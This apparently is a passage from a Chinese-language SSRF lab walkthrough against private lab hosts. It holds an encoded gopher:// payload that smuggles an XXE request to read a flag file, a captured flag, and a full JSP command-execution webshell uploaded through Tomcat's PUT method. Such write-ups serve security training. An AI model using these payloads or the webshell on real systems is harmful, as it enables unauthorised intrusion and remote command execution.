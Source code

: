 ```
gopher%3A%2F%2F172.72.23.25%3A80%2F_%25%35%30%25%34%66%25%35%33%25%35%34%25%32%30%25%32%66%25%36%34%25%36%66%25%34%63%25%36%66%25%36%37%25%36%39%25%36%65%25%32%65%25%37%30%25%36%38%25%37%30%25%32%30%25%34%38%25%35%34%25%35%34%25%35%30%25%32%66%25%33%31%25%32%65%25%33%31%25%30%64%25%30%61%25%34%38%25%36%66%25%37%33%25%37%34%25%33%61%25%32%30%25%33%31%25%33%37%25%33%32%25%32%65%25%33%37%25%33%32%25%32%65%25%33%32%25%33%33%25%32%65%25%33%32%25%33%35%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%34%63%25%36%35%25%36%65%25%36%37%25%37%34%25%36%38%25%33%61%25%32%30%25%33%31%25%33%32%25%33%34%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%35%34%25%37%39%25%37%30%25%36%35%25%33%61%25%32%30%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%36%64%25%36%63%25%33%62%25%36%33%25%36%38%25%36%31%25%37%32%25%37%33%25%36%35%25%37%34%25%33%64%25%37%35%25%37%34%25%36%36%25%32%64%25%33%38%25%30%64%25%30%61%25%30%64%25%30%61%25%33%63%25%32%31%25%34%34%25%34%66%25%34%33%25%35%34%25%35%39%25%35%30%25%34%35%25%32%30%25%37%34%25%36%35%25%37%33%25%37%34%25%35%62%25%33%63%25%32%31%25%34%35%25%34%65%25%35%34%25%34%39%25%35%34%25%35%39%25%32%30%25%37%34%25%36%35%25%37%33%25%37%34%25%32%30%25%35%33%25%35%39%25%35%33%25%35%34%25%34%35%25%34%64%25%32%30%25%32%32%25%36%36%25%36%39%25%36%63%25%36%35%25%33%61%25%32%66%25%32%66%25%32%66%25%36%36%25%36%63%25%36%31%25%36%37%25%32%32%25%33%65%25%35%64%25%33%65%25%30%64%25%30%61%25%33%63%25%37%35%25%37%33%25%36%35%25%37%32%25%33%65%25%33%63%25%37%35%25%37%33%25%36%35%25%37%32%25%36%65%25%36%31%25%36%64%25%36%35%25%33%65%25%32%36%25%37%34%25%36%35%25%37%33%25%37%34%25%33%62%25%33%63%25%32%66%25%37%35%25%37%33%25%36%35%25%37%32%25%36%65%25%36%31%25%36%64%25%36%35%25%33%65%25%33%63%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%66%25%37%32%25%36%34%25%33%65%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%66%25%37%32%25%36%34%25%33%63%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%66%25%37%32%25%36%34%25%33%65%25%33%63%25%32%66%25%37%35%25%37%33%25%36%35%25%37%32%25%33%65
```

![image-20240905141239915](https://image.201068.xyz/assets/29.SSRF/image-20240905141239915.png)

#### flag8

```
flag{nisp8_another_flag8}
```

### 172.72.23.26:8080

#### tomcat put上传jsp

![image-20240905143626766](https://image.201068.xyz/assets/29.SSRF/image-20240905143626766.png)

#### jsp语言的webshell

```jsp
<%
    String command = request.getParameter("cmd");
    if(command != null)
    {
        java.io.InputStream in=Runtime.getRuntime().exec(command).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1)
        {
            out.println(new String(b));
        }
        out.print("</pre>");
    } else {
        out.print("format: xxx.jsp?cmd=Command");
    }
%>
```
